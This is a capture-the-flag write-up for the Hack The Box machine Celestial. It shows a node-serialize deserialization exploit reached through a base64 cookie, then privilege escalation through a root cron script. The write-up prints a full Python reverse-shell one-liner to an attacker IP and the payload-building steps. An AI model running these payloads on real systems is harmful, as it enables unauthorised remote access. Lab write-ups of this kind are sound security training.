 ```yaml
---
layout: PostSimple
date: 
title:     "Hack The Box - Celestial"
tags: ['linux','medium','node','serialize','cron']
layout: PostSimple
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/1.png)

We are going to pwn Celestial by 3ndG4me from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/130](https://www.hackthebox.eu/home/machines/profile/130)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only One port Available and it is a Node.js Express framework so let's check the webpage of it.

## HTTP:

It displayes a message and nothing else.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/2.png)

Since it is ``Node.js`` framework, Capture the webpage request in burp and check for interesting things.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/3.png)
There is  ``Profile`` cookie in request header and its seems like Base64 encoded, and the Cookie start with ``eyJ`` it is JSON Web Token. 

It is Base64 encoded cookie this information is displayed in response header.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/4.png)

Since it is Base64 encoded cookie, why dont we change it and encode it with base64 and pass it as cookie.[br/](br/)

I changed the ``"num":"2"`` to ``"num":"3"`` and encoded it with base64.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/5.png)
Now I copied that base64 encoded cookie and pass it to the Request Header Cookie.[br/](br/)

The Output Now changes to ``Hey Dummy 3 + 3 is 33`` so If we change the ``num`` in the cookie, it changes in the response. This is because of a module called [node-serialize](https://www.npmjs.com/package/node-serialize)[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/5.1.png)

I searched for NodeJs Serialize exploits and found this link.
>[https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

According to the article, the data we send as a cookie value was passed into the ``unserialize()`` function which unserialize the serialized format code and execute it accordingly. Since Node.js and plenty of other languages rely on the serializtion of the objects, the main issue lies in the parsing of this data whether they contain any malicious code or not. Taking advantage of this, we can generate a payload and due to which try to execute something that can help us in futher exploitation. Once payload created, we can pass it as a cookie value, which then passed into `unserialize`, hence deserialization of the our payload will execute the code.

## Payload Generation:

I started with [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to create our reverse shell with Our machine IP.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/6.png)

We need to generate the serialize payload by using ``log.js``[br/](br/)

``log.js``
```
var y = {
 rce : function(){}
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
Before doing this make you sure you need to do this.
```
apt install nodejs
apt install npm
npm install node-serialize
```

Copy the payload we got from the python script and paste that in ``function(){PAYLOAD}`` and execute it.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/7.png)

Now we got Serialized payload, Copy the payload and encode as Base64, don't forgot to add brackets ``()`` after the function body.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/8.png)

## Gaining Shell:

Paste the encoded Base64 in ``Cookie : Profile=``, send the request and start the listener.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/9.png)
Got the shell as user ``sun``. You can get the user Flag in ``/Documents``.


## Privilege Escalation:

Uploaded ``pspy`` to the box to check any process running in the background.

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/10.png)
There is a python script in ``/Document/script.py`` which is running as root. We have write permission on the file too. So I upload python reverese shell.

```
$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> script.py
```
Started my listener and I got Root!![br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/11.png)

